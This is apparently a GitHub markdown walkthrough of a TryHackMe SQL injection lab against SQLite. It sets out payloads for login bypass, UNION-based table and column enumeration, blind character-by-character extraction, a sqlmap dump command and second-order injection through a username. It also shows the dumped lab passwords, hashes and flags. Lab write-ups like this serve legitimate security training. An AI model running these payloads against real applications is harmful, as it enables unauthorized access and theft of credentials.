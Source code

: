 # SQL Injection Lab

<details>
   <summary>Introduction to SQL Injection: Part 2</summary>       
 
   
- ``try to put this in email``
```
', nickName='test', email='hacked
```

> the nikname be came ``test`` and email ``hacked``

- ``want to know data base type``

```
', nickName=sqlite_version(), email='
```

> notice that the nikneame became ``3.22.0`` ==> SQLite

- ``SQLite store his tables in sqlite_master we will try to get all tables``

```
', nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%'), email='
```

> found two tables ``usertable,secrets``

- ``find name of columns of table``

```
', nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name='usertable'), email='
```
``found``

```
CREATE TABLE `usertable` ( `UID` integer primary key,
                           `name` varchar(30) NOT NULL,
                           `profileID` varchar(20) DEFAULT NULL,
                           `salary` int(9) DEFAULT NULL,
                           `passportNr` varchar(20) DEFAULT NULL,
                           `email` varchar(300) DEFAULT NULL,
                           `nickName` varchar(300) DEFAULT NULL,
                           `password` varchar(300) DEFAULT NULL )
```

- ``get usernames and passwords``

```
', nickName=(SELECT group_concat(name,password) FROM usertable), email='
```

> ``And booom``

``found``

```
Francois05842ffb6dc90bef3543dd85ee50dd302f3d1f163de1a76eee073ee97d851937
Michandrec69d171e761fe56711e908515def631856c665dc234a0aa404b32c73bdbc81ac
Coletteb6efdfb0e20a34908c092725db15ae0c3666b3cea558fa74e0667bd91a10a0d3
Phillipbe042a70c99d1c438cdcbd479b955e4fba33faf4f8c494239257e4248bbcf4ff
Ivan6ef110b045cbaa212258f7e5f08ed22216147594464427585871bfab9753ba25
Admin
```

> but here we want the flag so we will see colomns of another tabel ``secrets``

- ``find the flag``

```
', nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name='usertable'), email='
```

``found``

```
CREATE TABLE secrets ( id integer primary key,
                       author integer not null,
                       secret text not null )
```

- ``get the flag``

```
', nickName=(SELECT group_concat(secret) FROM secrets), email='
```

``found``

```
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Integer a.,Donec viverra consequat quam,
 ut iaculis mi varius a. Phasellus.,Aliquam vestibulum massa justo, in vulputate velit ultrices ac.
 Donec.,Etiam feugiat elit at nisi pellentesque vulputate. Nunc euismod nulla.,
THM{b3a540515dbd9847c29cffa1bef1edfb}
```



  
</details>




-----------------------------------------------------------------------------------------------------------------------




<details>
   <summary>Vulnerable Startup: Broken Authentication</summary>

``write in username``
``
' or 1=1; -- -
``
  
</details>



----------------------------------------------------------------------------------------------------------------------------------------




<details>
   <summary>Vulnerable Startup: Broken Authentication-2</summary>

## ``first``

```
' OR 1=1-- -
```

> when logedin you will find the name of user in top right of page and also in cookie
>
> if you want to decode cookie you can use ``https://www.kirsle.net/wizards/flask-session.cgi`` or this script ``decode_cookie.py``
>
> you will find it like this :
> ```
> {
>    "challenge2_user_id": 1,
>    "challenge2_username": "admin"
> }
> ```


### ``now we will use UNION select to know number of columns that query ask for``

``back to login page and write: ``

```
' UNION SELECT NULL-- -
```
``it failed so will try: ``

```
' UNION SELECT NULL, NULL-- -
' UNION SELECT 1, 2-- -
```
``IT work now use``

⚠️⚠️⚠️

<details>
  <summary>found type of database and tabeles,....</summary>

``type of data_base``

```
' UNION SELECT sqlite_version(), NULL-- -
' UNION SELECT @@version, NULL-- -
```

> ``found that it is sqlite``

### `` now find tables in this database``

```
' UNION SELECT 1, group_concat(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%'-- -
```

> found ``users``

### ``now find name of columns in table``

```
' UNION SELECT 1, sql FROM sqlite_master WHERE name='users' AND type='table'-- -
```

``found:``

```
CREATE TABLE users ( id integer primary key,
                     username text unique not null,
                      password text not null )
```


  
</details>
⚠️⚠️⚠️

> found the name in top right became ``2``


``get all basswords of users``

```
' UNION SELECT 1, group_concat(password) FROM users-- -
```

``found``

```
Logged in as rcLYWHCxeGUsA9tH3GNV,asd,Summer2019!,345m3io4hj3,THM{fb381dfee71ef9c31b93625ad540c9fa},viking123 | 
```
**yapppp!!!**


</details>



-------------------------------------------------------------------------------------------------------------------------




<details>
   <summary>Vulnerable Startup: Broken Authentication 3 (Blind Injection)</summary>

### ``first try to know password length``

```
admin' AND length((SELECT password from users WHERE username='admin'))=1-- -
```
> change ``1`` untill login when login then this is password length you can user ``burp``
>
> found it in ``37``


### ``now try go guess every char in the password ``

```
admin' AND SUBSTR((SELECT password FROM users WHERE username='admin'), 1, 1) = CAST(X'54' as TEXT)-- -
admin' AND SUBSTR((SELECT password FROM users WHERE username='admin'), 1, 1) = a-- -
```
> first ``1`` mean first char in ``password``
>
> second ``1`` mean we use in every time one char
>
> when found first char true change first ``1`` to ``2`` and so on .....

#### ``OR`` YOU can use ``SQLmap``

```
sqlmap -u http://10.10.247.180:5000/challenge3/login \--data="username=admin&password=admin" \--level=5 --risk=3 --dbms=sqlite --technique=B --dump
```
> found this

```
Table: users
[5 entries]
+----+---------------------------------------+----------+
| id | password                              | username |
+----+---------------------------------------+----------+
| 1  | THM{f1f4e0757a09a0b87eeb2f33bca6a5cb} | admin    |
| 3  | asd                                   | amanda   |
| 2  | Summer2019!                           | dev      |
| 5  | 345m3io4hj3                           | emil     |
| 4  | viking123                             | maja     |
+----+---------------------------------------+----------+

```


   
</details>


-------------------------------------------------------------------------------------------------------------------------------------



<details>
   <summary>Vulnerable Startup: Vulnerable Notes</summary>

- > login not vuln but when you enter vuln username it can used when do insert in notes
  >
  > ``login`` with
  >
  > ```
  > ' union select 1, group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%'--
  > ```
  >
  > open notes you will found :
  >
  > ```
  > users,notes
  > ```
  >
  > so it's vuln and you now know tables names
  >
  > now use :
  >
  > ```
  > '  union select 1,group_concat(password) from users'
  > ```
  >
  > ``found``
  >
  > ```
  > THM{4644c7e157fd5498e7e4026c89650814}
  > ```

   
</details>




--------------------------------------------------------------------------------------------------------------------------------------





<details>
     <summary>Vulnerable Startup: Change Password (i like it) 💯</summary>

- > create account using this name:
  >
  > ``admin'-- -``
  >
  > after login we will try to change password , reset password query is not scure this it is :
  >
  > ```
  > UPDATE users SET password = ? WHERE username = 'admin'-- -'
  > ```
  >
  > in this way we change passowrd of ``admin`` user
  >
  > after that login with new passowrd ``admin:123``
  >
  > and ``found``
  >
  > ```
  >  THM{cd5c4f197d708fda06979f13d8081013} 
  > ```
  >
  
   
</details>






-------------------------------------------------------------------------------------------------------------------------------------------










<details>
    <summary>Vulnerable Startup: Book Title</summary>

- > function of search on books it's query is vuln:
  >
  > ```
  > SELECT * FROM books WHERE id = (SELECT id FROM books WHERE title LIKE '" + title + "%')
  > ```
  >
  > we will found in url the title like this
  >
  > ``http://10.10.216.224:5000/challenge6/book?title=test``
  >
  > it's query is :
  >
  > ```
  > SELECT * FROM books WHERE id = (SELECT id FROM books WHERE title LIKE 'test%')
  > ```
  >
  > if i write **``') OR 1=1-- -``**
  >
  > the query will be like
  >
  > ```
  > SELECT * FROM books WHERE id = (SELECT id FROM books WHERE title LIKE '') OR 1=1-- -')
  > ```
  >
  > and it will give us all books : )
  >
  > and now we can user UNION select to get our tables and it's data
  >
  > ![MuaKissGIF](https://github.com/user-attachments/assets/9eef9bc5-c0b9-4e1c-98f2-21e5e00b8d0e)
  >
  > after that write:

  ⚠️⚠️⚠️
<details>
   <summary>get name of table and it's column</summary>

   - > ```
     > ') UNOIN select 1-- -
     > ```
     > no output untill found
     >
     > ```
     > ') union select 1,2,3,4-- -
     > ```
     >
     > ### now we need to know tables name
     >
     > ```
     > ') UNION SELECT 1,2,3, group_concat(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%'-- -
     > ```
     >
     > found
     > **``users,notes,books``**
     >
     > ### ``now find colmn names``
     >
     > ```
     > ') UNION SELECT 1,2,3,sql FROM sqlite_master WHERE name='users' AND type='table'-- -
     > ```
     >
     > found
     > 
     > ```
     > CREATE TABLE users ( id integer primary key,
     >                      username text unique not null,
     >                      password text not null )
     > ```
     >
     > ### get passowrds
     >
     > ```
     > ') union select 1,2,3,group_concat(password) from users-- -
     > ```
     >
     >  ```
     >  THM{27f8f7ce3c05ca8d6553bc5948a89210},asd,Summer2019!,345m3io4hj3,viking123,123
     >  ```
   
</details>
⚠️⚠️⚠️⚠️
   
   - >
     > found that there is users tabel and column call password
     > 
     > ```
     > ') union select 1,2,3,group_concat(password) from users-- -
     > ```
     >
     > ```
     > THM{27f8f7ce3c05ca8d6553bc5948a89210},asd,Summer2019!,345m3io4hj3,viking123,123
     > ```
     > ![MuaKissGIF](https://github.com/user-attachments/assets/9eef9bc5-c0b9-4e1c-98f2-21e5e00b8d0e)
     > 
    
  

  
  
  

   
</details>


























---
---
---
---



# ``payloads``

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
